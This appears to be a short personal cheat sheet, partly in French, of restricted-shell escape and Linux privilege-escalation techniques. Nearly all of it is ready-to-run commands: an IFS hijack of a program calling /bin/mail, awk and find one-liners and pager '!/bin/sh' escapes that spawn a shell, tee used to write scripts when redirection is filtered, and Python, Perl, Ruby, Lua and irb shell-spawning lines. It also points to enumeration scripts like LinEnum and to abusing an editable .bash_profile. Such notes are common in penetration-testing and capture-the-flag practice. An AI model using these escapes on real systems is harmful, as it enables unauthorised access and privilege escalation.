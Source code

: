 ## Using IFS (à tester)
    On lance un programme qui execute /bin/mail
    On créé les fichier bin et mail en 777 dans le répertoire courant
    export IFS="/"
    
## awk
    awk 'BEGIN {system("/bin/sh")}'

## find
    find / -name blahblah -exec /bin/awk 'BEGIN {system("/bin/sh")}' \;

## More, Less, and Man Commands
!commandxxx
'! /bin/sh'
'!/bin/sh'
'!bash'

## Filtered characters : use tee 

If you do not have access to an editor, and would like to create a script, you can make use of the 'tee' command. 
Since you cannot make use of '>' or '>>', the 'tee' command can help you direct your output when used in tandem with the 'echo' command. 

echo "evil script code" | tee script.sh
tee -a 'xx' : append to file

## Langages
    python: exit_code = os.system('/bin/sh') output = os.popen('/bin/sh').read()
    perl -e 'exec "/bin/sh";'
    perl: exec "/bin/sh";
    ruby: exec "/bin/sh"
    lua: os.execute('/bin/sh')
    irb(main:001:0> exec "/bin/sh"

## Files Executed in Unrestricted Mode?


## Put in /opt/priv_esc_ux
- LinEnum.sh           : https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh
- linuxprivchecker.py
- unixprivesc.sh

Upgrate Python3 : 2to3-3.5
Some restricted shells will start by running some files in an unrestricted mode before the restricted shell is applied. If your .bash_profile is executed in an unrestricted mode and it's editable, you'll be able to execute code and commands as an unrestricted user.
